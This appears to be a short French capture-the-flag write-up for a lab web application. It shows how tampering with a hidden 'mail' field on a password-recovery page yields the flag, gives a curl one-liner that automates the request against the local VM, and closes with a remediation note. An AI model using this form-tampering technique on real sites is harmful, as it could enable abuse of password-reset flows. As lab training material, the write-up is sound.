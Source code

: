 # Exploit 07 - Invalid POST values for recover mail page

Sur la [page de récupération de mot de passe](http://192.168.56.101/index.php?page=recover)
il y a un `input` caché:

```html
<input
        type="hidden"
        name="mail"
        value="webmaster@borntosec.com"
        maxlength="15"
/>
```

il suffit de modifier la `value` de cet `input` et d'envoyer le formulaire pour obtenir le flag.

On peut automatiser la récupération du flag avec la commande:

```bash
curl -s 'http://192.168.56.102/?page=recover#' --data 'mail=&Submit=Submit' | grep -oP 'The flag is : \K[0-9a-f]{64}'
```

L'intention derrière cet input est sûrement de paramétrer l'adresse de l'expéditeur du mail de reinitialisation du mot
de passe. Ce paramètre devrait être présent uniquement sur l'application backend, et idéalement stocké en base de donnée.
